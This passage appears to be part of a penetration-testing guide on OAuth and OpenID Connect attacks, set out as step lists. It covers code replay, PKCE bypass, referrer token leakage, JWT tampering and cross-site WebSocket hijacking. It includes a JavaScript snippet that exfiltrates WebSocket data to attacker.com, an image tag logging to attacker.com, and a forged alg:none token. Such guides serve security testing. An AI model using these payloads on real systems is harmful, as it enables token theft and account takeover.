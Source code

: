     2. **Code replay attacks**:
       - Step 1: Capture a legitimate authorization code from your own OAuth flow
       - Step 2: Test if the code can be used multiple times
       - Step 3: Check if the authorization server invalidates codes after use
       - Step 4: Try using the same code with different redirect_uri values
       - Step 5: Check for proper time-based expiration of codes
       - Example: Replaying the same authorization request multiple times with the same code value

    3. **PKCE bypass (code verifier attacks)**:
       - Step 1: Identify if PKCE is implemented (code_challenge parameter)
       - Step 2: Test if code_verifier is properly validated
       - Step 3: Try omitting the code_verifier in token requests
       - Step 4: Test if simple code_verifier values are accepted
       - Step 5: Check if code_challenge_method validation is enforced
       - Example: Send token request without code_verifier or with incorrect code_verifier

  - **Access token attacks**
    1. **Token theft via referrer leakage**:
       - Step 1: Identify applications using implicit flow (token in URL fragment)
       - Step 2: Look for pages that handle URL fragments and make external requests
       - Step 3: Test if the Referrer header includes the full URL with token
       - Step 4: Create a page that generates external requests after receiving token
       - Step 5: Exploit to steal tokens via Referrer header
       - Example: Create a page with an image: `<img src="https://attacker.com/log">`

    2. **Insufficient token validation**:
       - Step 1: Capture a legitimate access token
       - Step 2: Analyze the token format (JWT, reference token, etc.)
       - Step 3: Test if the resource server properly validates the token
       - Step 4: Try using expired tokens or tokens for different resources
       - Step 5: Check if token signature validation is enforced
       - Step 6: Test modifying token claims if using JWT
       - Example: Modify JWT payload to change subject or scope claims

    3. **Cross-site WebSocket hijacking with tokens**:
       - Step 1: Identify WebSocket connections authenticated with OAuth tokens
       - Step 2: Check if WebSocket connections lack CSRF protections
       - Step 3: Create a malicious page that establishes WebSocket connection
       - Step 4: Use victim's authentication to access their data
       - Step 5: Exfiltrate sensitive information
       - Example JavaScript:
       ```javascript
       <script>
         var ws = new WebSocket('wss://vulnerable-app.com/socket');
         ws.onmessage = function(event) {
           fetch('https://attacker.com/log?data=' + encodeURIComponent(event.data));
         };
       </script>
       ```

  - **JWT token vulnerabilities** (OpenID Connect)
    1. **Alg:none signature bypass**:
       - Step 1: Identify JWT tokens used for authentication
       - Step 2: Decode the token and inspect the header
       - Step 3: Modify the header to set "alg":"none"
       - Step 4: Remove the signature part
       - Step 5: Test if modified token is accepted
       - Example:
         - Original: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIn0.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c`
         - Modified: `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIn0.`
